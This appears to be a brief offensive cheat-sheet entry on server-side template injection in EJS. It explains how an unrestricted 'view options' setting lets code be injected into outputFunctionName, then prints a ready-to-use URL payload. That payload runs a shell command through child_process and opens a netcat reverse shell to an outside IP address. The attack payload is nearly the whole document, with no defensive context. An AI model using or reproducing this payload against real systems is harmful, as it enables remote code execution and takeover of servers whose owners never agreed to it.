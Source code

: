 # Server Side Injection Includes

## EJS
This works by passing an unrestricted render option via the `view options` parameter of `renderFile` which makes it possible to inject code into `outputFunctionName`.

```sh
http://site.com/page?id=2&settings[view options][outputFunctionName]=x;return process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.125.40');s
```



